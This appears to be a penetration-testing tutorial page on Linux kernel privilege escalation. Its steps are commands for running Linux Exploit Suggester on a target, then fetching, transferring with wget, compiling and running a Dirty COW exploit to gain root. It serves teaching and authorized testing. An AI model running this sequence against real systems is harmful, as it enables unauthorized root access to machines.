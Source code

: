 ### **INTRODUCTION**

A kernel is essentially a “computer program” that facilitates interactions between hardware and software. This means that the kernel sits between applications (software) and the CPU / memory / devices / etc. (hardware). The job that the kernel has is to convert input/ouput (I/O) requests from software into instruction sets that interact between the software and hardware.

### **STEPS TO IDENTIFY AND EXPLOIT KERNEL**

1.  Tools like Linux Exploit Suggester simplify finding potential exploits by scanning the system and suggesting possible exploits based on the kernel version and other details.  
    `git clone https://github.com/mzet-/linux-exploit-suggester.git`  
    
    ![](../../img/Linux-Environment/51.png)
    
2.  Host the Script Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../img/Linux-Environment/52.png)
    
3.  Transfer Script to target machine Using wget  
    `wget http://[IP-ADRESS]:8000/linux-exploit-suggester.sh`  
    
    ![](../../img/Linux-Environment/53.png)
    
4.  Make the script executable and run it on the target system:  
    `chmod a+x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh`  
    
    ![](../../img/Linux-Environment/54.png)

    The tool evaluates each exploit's potential effectiveness with different exposure levels:  
    1. **highly probable:** High likelihood of success without modifications.  
    2. **probable:** Likely to work with some adjustments.  
    3. **less probable:** Requires further manual analysis.  
    4. **unprobable:** Unlikely to be effective.  
    
    ![](../../img/Linux-Environment/55.png)
    
5.  Select a reliable version of the exploit. For example, you can use a well-reviewed variant of the Dirty COW exploit.   
    `wget https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw -O dirtycow.c`  
    
    ![](../../img/Linux-Environment/56.png)
    
6.  Host the Exploit Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../img/Linux-Environment/57.png)
    
7.  Use wget to download the exploit to the target machine:  
    `wget http://[IP-ADRESS]:8000/dirtycow.c`  
    
    ![](../../img/Linux-Environment/58.png)
    
8.  Compile the exploit code on the target system:  
    `gcc -pthread dirtycow.c -o dirtycow`
    
9.  Run the compiled exploit to perform the attack:  
    `./dirtycow`  
    
    ![](../../img/Linux-Environment/59.png)

    **NOTE:** After successful execution, elevate privileges to root using:  
    `/usr/bin/passwd`